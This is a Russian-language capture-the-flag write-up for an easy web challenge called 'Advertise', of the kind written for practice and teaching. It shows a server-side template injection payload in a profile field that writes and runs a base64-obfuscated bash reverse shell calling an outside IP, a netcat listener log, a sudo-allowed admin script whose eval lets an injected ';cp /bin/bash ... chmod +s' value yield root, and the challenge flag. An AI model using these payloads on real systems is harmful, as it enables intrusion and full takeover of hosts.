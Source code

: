 # Advertise

## Описание

I love advertising portals so much...

| Название | Сложность | Автор |
|------|-----|-------|
| Advertise | Easy |[@collapsz](https://t.me/collapsz) |

## TLDR

SSTI to RCE, CMDinjection to root

## Решение

Проходим регистрацию в приложении и смотрим что там есть – список объявлений и профиль. 

![изображение](https://github.com/user-attachments/assets/a9ae4f1a-88fe-466b-8835-8d0933a9cf01)

Пару раз убив машину скульмапом понимаем, что никакой инъекции там нет и двигаемся на страницу профиля:

![изображение](https://github.com/user-attachments/assets/220ef1ed-6304-4c22-a318-854cddf9dc6f)

Имеем отражаемое поле о себе, вставив в которое `{{7*7}}` получим 49 – SSTI. Далее дело за малым:

![изображение](https://github.com/user-attachments/assets/14f7b22a-5e95-4bbc-b547-fe76bdf290d3)

```
{{self.__init__.__globals__.__builtins__.__import('os').popen('echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE0Ny40NS4xMzcuMTY0LzkwMDEgMD4mMQo= | base64 -d > shell.sh').read()}}
{{self.__init__.__globals__.__builtins__.__import('os').popen('bash shell.sh').read()}}
```

Получаем шелл:

```
┌[root☮4193239-at57219]-(~)
└> nc -lvnp 9001             
Listening on [0.0.0.0] (family 0, port 9001)
Connection from 62.76.6.79 62521 received!
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
grimes@3994eeba6de9:/app$ 
```

Проверив sudoers, видим возможность выполнять скрипт admin.sh без пароля

```
grimes@3994eeba6de9:/app$ sudo -l
sudo -l
Matching Defaults entries for grimes on 3994eeba6de9:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User grimes may run the following commands on 3994eeba6de9:
    (ALL) NOPASSWD: /home/grimes/admin.sh
```

Содержимое:

```
#!/bin/bash

show_header() {
    echo -e "\n\033[1;34m===== SYSTEM MONITOR =====\033[0m"
}

show_menu() {
    echo "

1. General system information

2. CPU information

3. Memory usage

4. List kernel modules

5. Exit"
}

cpu_info() {
    echo -e "\n\033[1;32m* CPU Information *\033[0m"
    lscpu | grep -E 'Model|Architecture|CPU(s)|CPU MHz'
}

memory_usage() {
    echo -e "\n\033[1;32m* Memory Usage *\033[0m"
    free -h | awk '/Mem/{printf "Total: %s, Used: %s, Free: %s\n", $2, $3, $4}'
}

system_info() {
    echo -e "\n\033[1;32m* General Information *\033[0m"
    echo "Hostname: $(hostname)"
    echo "Uptime: $(uptime -p)"
    echo "Kernel Version: $(uname -r)"
}

kernel_modules() {
    read -p "Enter arguments for filtering (or press Enter to skip): " user_args
    echo -e "\n\033[1;32m* Kernel Modules (filtering: ${user_args:-no filters}) *\033[0m"

    eval ls $user_args /sys/module 2>/dev/null || echo " No results"
}

main() {
    while true; do
        show_header
        show_menu
        read -p "Choose an action: " choice

        case $choice in
            1) system_info ;;
            2) cpu_info ;;
            3) memory_usage ;;
            4) kernel_modules ;;
            5) exit 0 ;;
            *) echo "Invalid choice!" ;;
        esac

        read -p "Press Enter to continue..."
    done
}
```

Запускаем скрипт и выполняем CMD injection

```
===== SYSTEM MONITOR =====


1. General system information

2. CPU information

3. Memory usage

4. List kernel modules (vulnerable function)

5. Exit
4
;cp /bin/bash /tmp/bash && chmod +s /tmp/bash
```

Далее 

```
grimes@3994eeba6de9:/app$ /tmp/bash -p
/tmp/bash -p
id
uid=1000(grimes) gid=1000(grimes) euid=0(root) egid=0(root) groups=0(root),1000(grimes)
```
PWNed!
## Flag
rdg{1c7d711f1ac4c57d5b074a1b4ea50770}
